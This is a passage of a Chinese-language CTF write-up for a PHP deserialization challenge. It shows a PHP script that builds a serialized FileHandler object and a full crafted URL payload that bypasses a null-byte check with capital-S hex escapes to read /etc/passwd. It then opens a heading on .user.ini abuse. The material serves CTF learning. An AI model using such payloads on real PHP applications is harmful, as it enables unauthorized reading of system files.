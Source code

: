 ![image-20231110224045679](./img/7-1.png)

发现读取成功

绕过方法二

**利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 //00 替换 %00**

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="/etc/passwd";  // 最后需要手动修改passwd为小写
    protected $content;
}

$a = new FileHandler();
$b = urlencode(serialize($a));
$b = str_replace("s", "S", $b);
$b = str_replace("%00", "\00", $b);
echo $b;
?>  
```

```
http://b6e037f4-5bb0-4a2b-866b-df7c1416fc12.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A11%3A%22%2Fetc%2Fpasswd%22%3BS%3A10%3A%22\00%2A\00content%22%3BN%3B%7D
```

## [SUCTF 2019]CheckIn

`.user.ini利用`

